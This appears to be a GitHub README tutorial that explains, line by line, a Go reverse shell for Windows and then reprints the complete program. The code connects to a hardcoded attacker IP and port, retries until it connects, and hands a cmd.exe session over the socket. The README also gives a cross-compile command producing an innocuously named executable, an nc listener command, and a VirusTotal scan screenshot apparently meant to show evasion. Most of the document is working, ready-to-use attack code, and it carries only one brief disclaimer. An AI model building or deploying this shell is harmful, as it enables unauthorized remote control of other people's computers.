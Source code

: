 # Building a Reverse Shell in Go

    In this tutorial, we'll explore how to create a basic reverse shell in Go. A reverse shell is a type of shell where the target machine communicates back to the attacking machine. This can be useful for remote administration or accessing a system that is behind a firewall.

    ## Understanding the Code

    Let's break down the code step by step:

    ### Package and Imports

    ```go
    package main

    import (
        "fmt"
        "net"
        "os"
        "os/exec"
        "time"
    )
    ```

    - `package main`: Indicates that this Go file is the main package, which can be executed.
    - `import`: Importing necessary packages for our program. We import `fmt` for formatting, `net` for networking operations, `os` for operating system functionalities, `os/exec` for executing external commands, and `time` for time-related operations.

    ### Variables

    ```go
    var (
        a1 = "192.168.23.129"
        a2 = 4444
    )
    ```

    - `a1` and `a2` are variables storing the IP address and port number, respectively, of the attacker's machine.

    ### Function `e1()`

    ```go
    func e1() {
        if a1 == "0.0.0.0" || a2 == 0 {
            fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
            os.Exit(1)
        }
    }
    ```

    - `e1()` checks if the IP address (`a1`) or port number (`a2`) is not defined and exits the program with an error message if they are not defined.

    ### Function `e2()`

    ```go
    func e2() net.Conn {
        var c net.Conn
        var err error
        for {
            c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
            if err == nil {
                break
            }
            time.Sleep(5 * time.Second)
        }
        return c
    }
    ```

    - `e2()` attempts to establish a TCP connection to the attacker's machine (`a1:a2`). It retries every 5 seconds until a successful connection is made and returns the connection object `c`.

    ### Function `e3()`

    ```go
    func e3(c net.Conn) {
        cmd := exec.Command("cmd")
        cmd.Stdin = c
        cmd.Stdout = c
        cmd.Stderr = c
        err := cmd.Start()
        if err != nil {
            fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
            os.Exit(1)
        }
        cmd.Wait()
    }
    ```

    - `e3()` executes the `cmd` command on the target machine, redirecting its standard input, output, and error to the network connection `c`.

    ### Main Function

    ```go
    func main() {
        e1()
        c := e2()
        e3(c)
    }
    ```

    - The `main()` function calls `e1()` to check if the IP address and port are defined, then establishes a connection using `e2()` and executes the `cmd` command using `e3()`.

    ### Running the Code

    To run this code, you need to replace `a1` and `a2` with your own IP address and port number. Compile the code using `go build` and run the resulting executable on the target machine.

    In your attacker machine, you can listen for incoming connections using tools like `nc` or `netcat`:

    ```bash
    nc -nlvp 4444
    ```

    Once the connection is established, you should see a command prompt from the target machine on your attacker machine, allowing you to execute commands remotely.

    This is a basic example of a reverse shell in Go. Remember, using such techniques for unauthorized access is illegal and unethical. Always ensure you have proper authorization before attempting any remote administration.

```go
package main

import (
	"fmt"
	"net"
	"os"
	"os/exec"
	"time"
)

var (
	a1 = "192.168.23.129"
	a2 = 4444
)

func e1() {
	if a1 == "0.0.0.0" || a2 == 0 {
		fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
		os.Exit(1)
	}
}

func e2() net.Conn {
	var c net.Conn
	var err error
	for {
		c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
		if err == nil {
			break
		}
		time.Sleep(5 * time.Second)
	}
	return c
}

func e3(c net.Conn) {
	cmd := exec.Command("cmd")
	cmd.Stdin = c
	cmd.Stdout = c
	cmd.Stderr = c
	err := cmd.Start()
	if err != nil {
		fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
		os.Exit(1)
	}
	cmd.Wait()
}

func main() {
	e1()
	c := e2()
	e3(c)
}


```
## Compilation
```sh
GOOS=windows GOARCH=amd64 go build -o crust.exe curb.go
```


    ### Virustotal Scan
    ![alt text](go-revshell.png)
    
    ### session

    ![alt text](go-revshell-2.png)


#peacout


